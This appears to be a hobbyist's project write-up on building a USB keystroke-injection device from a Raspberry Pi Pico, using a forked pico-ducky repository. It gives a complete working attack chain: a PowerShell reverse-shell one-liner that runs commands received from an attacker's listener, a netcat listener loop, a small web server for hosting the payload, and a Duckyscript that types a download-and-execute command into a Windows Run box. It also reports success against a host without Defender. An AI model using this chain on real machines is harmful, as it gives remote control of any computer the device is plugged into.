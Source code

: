 # Task 5: Working with Payloads

In the last four weeks, I have learned how the PICO works, connected physical buttons and worked out how the virtual keyboard works. With the knowledge of the device, Circuit Python and libraries, I started work on getting scripts running. I was helped with the code from Doge Wallet "https://github.com/dbisu/pico-ducky". He had already completed some operational functions. However, when tested, this did not work correctly. I have forked his repo to my own and updated the code base; its located here: <https://github.com/CraigWilsonOZ/pico-ducky/tree/main>

Now it's time to run some scripts. The scripts use the Hak5 Rubby Ducky script syntax. The Hak5 Rubber Ducky script syntax can be found here: <https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript>

The script we will try will create a reverse shell:

Step 1: On a Linux workstation, create a "payload.ps1" file and paste the following code. Update IPADDRESS with your Linux workstation IP

Payload.ps1:

```powershell
$sm=(New-Object Net.Sockets.TCPClient("IPADDRESS",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

Step 2: Open two terminal windows; in the first run,

```bash
python3 -m http.server
```

This will create a small web server from which to download files. Next, run this Netcat command in the other terminal.  

```bash
while true; do nc -l -p 4444; done
```

Now we have our attacking host up, update the payload.py file on the PICO with this file:

Payload.py:

```python
REM Reverse Shell
DELAY 1000
GUI r
DELAY 100
STRING powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.86.219:8000/payload-5.ps1');"
ENTER
```

Now we have our scripts ready, payloads all set time for testing. Connect the PICO to a Windows workstation.

The first test failed for me due to my Windows Defender configuration.
![Failed](./images/2022-02-13_19-14-35.png)

Next tried on an unprotected host, success!
![Working](./images/2022-02-13_19-14-35.png)

The Linux host uses the same process but uses a new reverse shell. These can be found here: <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>

Now that we have created a payload, its time to start playing with other strips.
